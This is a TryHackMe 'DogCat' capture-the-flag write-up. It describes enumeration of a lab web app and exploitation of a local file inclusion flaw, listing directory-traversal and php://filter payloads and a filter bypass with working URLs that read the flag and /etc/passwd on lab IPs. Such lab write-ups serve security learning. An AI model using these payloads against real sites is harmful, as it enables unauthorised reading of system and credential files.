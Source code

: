# DogCat TryHackMe

**Enumeration**

**Nmap:**

![image](https://user-images.githubusercontent.com/79543461/176386293-cbf1ba92-20aa-4012-9bca-efaeb883aaba.png)

Seeing only SSH and HTTP open, it seems that it will be a web vulnerability

**WhatWeb:**

![image](https://user-images.githubusercontent.com/79543461/176386911-cc73be86-9d60-4c08-8959-e0087ee3ff47.png)

**Web with Browser:**

![image](https://user-images.githubusercontent.com/79543461/176389233-3105ec6b-e61a-4df5-bef0-8f3f5faecd19.png)

**I click in dog and i see this:**

![image](https://user-images.githubusercontent.com/79543461/176389528-0e08f17b-3915-461e-a495-691a1ccf0ec5.png)

**In URL i see "view" parameter, It looks like LFI, let's try basic payloads**

![image](https://user-images.githubusercontent.com/79543461/176389910-70dcc9e5-b0b6-423d-a29b-9a8ddcd61392.png)

That message can mean two things.

Or they have protected the LFI website, Or the devoloper added filters so that an LFI cannot be executed so easily

**Payloads:**

../../../../etc/passwd = **No Work**

../../../../etc/passwd%00 = **No Work**

%252e%252e%252fetc%252fpasswd = **No Work**

%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00 = **No Work**

/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd = **No Work**

**Wrappers:**

Let's try with LFI Wrappers:

expect://whoami = **No Work**

php://filter/convert.base64-encode/resource=index.php = **No work**

Okey anything work, but i try to put cat or dog, it is possible that the filter checks if there is the word dog or cat.

Payload: **dog/etc/passwd**

![image](https://user-images.githubusercontent.com/79543461/176392772-34d8dbd7-ab20-4949-bf3a-97a9e4aa33df.png)

**That's It!!**

Every time I click on cat or dog I get a different picture, that makes me think that it could be a php file that is executed.

But looking at the source code it is very clear to me.

Therefore, to check it is necessary to send a base64 filter in the wrapper and ask it to give me the page cat or dog.

![image](https://user-images.githubusercontent.com/79543461/176395381-0726391b-8cc3-49cd-a33c-561605793226.png)

**WORKS!!! Lets go to Decode Base64 code**

![image](https://user-images.githubusercontent.com/79543461/176395536-b72fb120-52a8-4f4d-8e30-6a11189a9d90.png)

Same with dogs file

![image](https://user-images.githubusercontent.com/79543461/176396151-bc86b5d4-77ca-42fb-90fc-6c2caf3b8ce7.png)

**FFUF:**

Web App are adding .php extension in all the querys.

![image](https://user-images.githubusercontent.com/79543461/176399811-07d12933-5306-449f-983e-19af0110bf6a.png)

**Tryng Payloads I found the correct Payload**

![image](https://user-images.githubusercontent.com/79543461/176399237-64556068-edc0-4774-94dd-b5acfdc30d49.png)

**Decoded base64 index.php code**

![image](https://user-images.githubusercontent.com/79543461/176399650-b30098b2-02ec-4371-8006-8f9c06107134.png)

**Other FFUF**

![image](https://user-images.githubusercontent.com/79543461/176443978-851bd070-272b-47cb-9d54-cde62d16e1d5.png)

**Flag**

![image](https://user-images.githubusercontent.com/79543461/176402871-df440e00-01e7-479e-9cac-10131e797a06.png)

![image](https://user-images.githubusercontent.com/79543461/176444149-15725303-a6ab-47dd-ba1a-6fab61e0277f.png)

**Seeing index.php code• i see ext paramter expected in GET request.**

http://10.10.64.213/?view=php://filter/convert.base64-encode/resource=dog/../flag&ext=.php == WORKS GOOD

http://10.10.24.8/?view=php://filter/convert.base64-encode/resource=dog/../../../../&ext=etc/passwd == **WORKS GOOD!!!!!!!!**

**/etc/passwd**

![image](https://user-images.githubusercontent.com/79543461/176447685-600e98e5-7d55-4958-9d1e-9e829096cef8.png)
